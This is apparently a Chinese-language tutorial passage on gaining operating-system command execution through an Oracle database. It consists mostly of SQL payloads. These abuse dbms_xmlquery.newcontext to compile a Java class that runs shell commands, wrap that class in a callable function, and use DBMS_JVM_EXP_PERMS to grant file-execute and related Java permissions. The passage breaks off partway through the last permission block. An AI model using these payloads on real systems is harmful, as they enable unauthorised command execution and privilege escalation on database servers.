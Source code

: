 
创建java source：

``` sql
select dbms_xmlquery.newcontext('declare PRAGMA AUTONOMOUS_TRANSACTION;begin execute immediate ''create or replace and compile java source named "LinxUtil" as import java.io.*; public class LinxUtil extends Object {public static String runCMD(String args) {try{BufferedReader myReader= new BufferedReader(new InputStreamReader( Runtime.getRuntime().exec(args).getInputStream() ) ); String stemp,str="";while ((stemp = myReader.readLine()) != null) str +=stemp+"\n";myReader.close();return str;} catch (Exception e){return e.toString();}}}'';commit;end;') from dual;
```

![1609349655236.png](https://i.loli.net/2021/03/06/YInsbzdeXmcL4r8.png)


创建函数：

``` sql
select dbms_xmlquery.newcontext('declare PRAGMA AUTONOMOUS_TRANSACTION;begin execute immediate ''create or replace function LinxRunCMD(p_cmd in varchar2) return varchar2 as language java name ''''LinxUtil.runCMD(java.lang.String) return String''''; '';commit;end;') from dual;
```

![1609349683516.png](https://i.loli.net/2021/03/06/4cZbYjSkUFhmfXy.png)



可以通过查询OBJECT_ID来判断函数是否创建成功：

``` sql
select OBJECT_ID from all_objects where object_name ='LINXRUNCMD';
```

![1609349696763.png](https://i.loli.net/2021/03/06/sypL6naUVGX7k8I.png)



赋予需要的三个java权限：

> 当前用户为DBA时，通常只需要为该用户赋予第一个执行权限即可，实际情况中具体需要哪一个可以直接执行函数来看报错提示
> 
> 一般报错如下：
> 
> ![1609382785318.png](https://i.loli.net/2021/03/06/8ESTrXOmHvediny.png)


``` sql
DECLARE
POL DBMS_JVM_EXP_PERMS.TEMP_JAVA_POLICY;
CURSOR C1 IS SELECT 'GRANT',USER(),'SYS','java.io.FilePermission','<<ALL FILES>>','execute','ENABLED' FROM DUAL;
BEGIN
OPEN C1;
FETCH C1 BULK COLLECT INTO POL;
CLOSE C1;
DBMS_JVM_EXP_PERMS.IMPORT_JVM_PERMS(POL);
END;
/
DECLARE
POL DBMS_JVM_EXP_PERMS.TEMP_JAVA_POLICY;
CURSOR C1 IS SELECT 'GRANT',USER(),'SYS','java.lang.RuntimePermission','writeFileDescriptor',NULL,'ENABLED' FROM DUAL;
BEGIN
OPEN C1;
FETCH C1 BULK COLLECT INTO POL;
CLOSE C1;
DBMS_JVM_EXP_PERMS.IMPORT_JVM_PERMS(POL);
END;
/
DECLARE
POL DBMS_JVM_EXP_PERMS.TEMP_JAVA_POLICY;
```